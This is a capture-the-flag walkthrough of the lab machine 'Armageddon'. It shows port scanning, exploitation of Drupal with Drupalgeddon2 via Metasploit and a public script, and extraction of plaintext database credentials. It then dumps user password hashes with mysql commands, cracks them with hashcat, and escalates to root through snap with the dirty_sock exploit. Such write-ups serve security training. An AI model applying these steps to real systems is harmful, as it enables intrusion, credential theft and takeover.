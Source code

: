## Armageddon

### Lab Details 

- Difficulty:Easy 
- Type: Drupal CMS, Web Exploit, mysql, snapd, snapcraf, Linux

#### Tasks

Q1: How many TCP ports are open on Armageddon?
 - `nmap -sT -T4 -vv -A -p- -oA nmap_armageddon 10.10.10.233`

Q2: What is the name of the content management system the website is using?
 - from the output of the nmap scan
 ```
 80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
 |_http-title: Welcome to  Armageddon |  Armageddon
 | http-robots.txt: 36 disallowed entries 
 | /includes/ /misc/ /modules/ /profiles/ /scripts/ 
 | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
 | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
 | /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
 | /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
 | /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
 | /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
 |_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
 |_http-generator: **Drupal 7** (http://drupal.org) 
 |_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
 | http-methods: 
 |_  Supported Methods: GET HEAD POST OPTIONS
 |_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

 ```

Q3: What is the name given to the exploit that targets Drupal < 8.3.9 / < 8.4.6 / < 8.5.1?
 - use searchsploit to find more about the exploit 
 - `searchsploit drupal`
 ```
 Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution  | php/remote/44482.rb
 Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution  | php/webapps/44448.py
 ```  

Q4: What user is the webserver running as?
 - use msfconsole and module `unix/webapp/drupal_drupalgeddon2`
 - run the exploit and confirm with whoami

Q5: What is the password for the MySQL database used by the site?
 - according to post https://www.drupal.org/forum/support/post-installation/2009-01-14/mysql-password-location  - the location of MySQL database password is stored at /var/www/html/sites/default/settings.php
 ```
 $databases = array (
   'default' => 
   array (
     'default' => 
     array (
       'database' => 'drupal',
       'username' => 'drupaluser',
       'password' => 'CQHEy@9M*m23gBVj',
       'host' => 'localhost',
       'port' => '',
       'driver' => 'mysql',
       'prefix' => '',
     ),
   ),
 );
 ```


Q6: What is the name of the table in the Drupal database that holder usernames and password hashes?
 - according to post https://www.drupal.org/forum/support/post-installation/2006-03-23/where-does-drupal-store-a-users-password
 - users table stored username and password in name and pass column respectively
 - tried to use msfconsole to load a shell however the shell is non-interactive
 - tried to load different reverse shells unable to execute
 - tried https://github.com/dreadlocked/Drupalgeddon2 worked 
 - tried to connect directly to mysql using below command however no output
   `armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -h locahost` 
 - used below command to run command as drupaluser line by line to dump 
   ```
    armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases
    armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal;show tables;
    armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal;select * from users;
    ...
    1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt 
   ```


Q7: What is the brucetherealadmin's password?
 - there is algorithm for drupal encryption
 - `hashcat -m 7900 hash rockyou.txt

Q8: What is the full path to the binary on this machine that brucetherealadmin can run as root?
 - /usr/bin/snap -> `sudo -l'

Q9: Submit the flag located in root's home directory.
 - attempted below
  1. checked gtfobin for privilege escalation
  2. run linpeas.sh found some CVEs 
  3. tried to compile a snapcraft project, required lxd dependence to be setup 
  4. search online found https://github.com/f4T1H21/dirty_sock
  5. transferred file and was able to gain a root shell

#### Lesson Learned
 - If unable to elevate shell or unable to move further backtrack and use another exploit or different exploit. 
